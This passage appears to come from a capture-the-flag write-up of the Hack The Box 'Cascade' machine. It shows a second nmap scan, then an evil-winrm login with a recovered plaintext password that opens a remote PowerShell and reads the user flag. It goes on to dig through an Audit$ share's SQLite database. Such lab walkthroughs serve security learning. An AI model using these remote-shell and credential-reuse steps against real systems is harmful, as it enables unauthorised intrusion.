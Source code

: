 ...
{% endhighlight %}

Using `s.smith`, we now have access to an additional share `Audit$`. Wait, we haven't found `user.txt`?

# user.txt

Running a second `nmap` scan but with all ports reveals an additional service we can use: `winrm` on port `5985`. Using [`evil-winrm`](https://github.com/Hackplayers/evil-winrm),

{% highlight bash %}
$ ruby evil-winrm.rb -i cascade.local -u s.smith -p sT333ve2
Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> type ../Desktop/user.txt
003fXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# Enumeration (2)

Back to the `Audit$` share, there were quite a few interesting files. After downloading all the files, I first checked out `\DB\Audit.db`.

{% highlight bash %}
$ file Audit.db 
Audit.db: SQLite 3.x database, last written using SQLite version 3027002
{% endhighlight %}

Fortunately, Kali Linux comes pre-installed with a SQLite Database browser.

![](/assets/images/cascade1.png)

After loading `Audit.db` into the browser, you should see 4 tables.

![](/assets/images/cascade2.png)

There were mainly 2 interesting tables:

`DeletedUserAudit`:
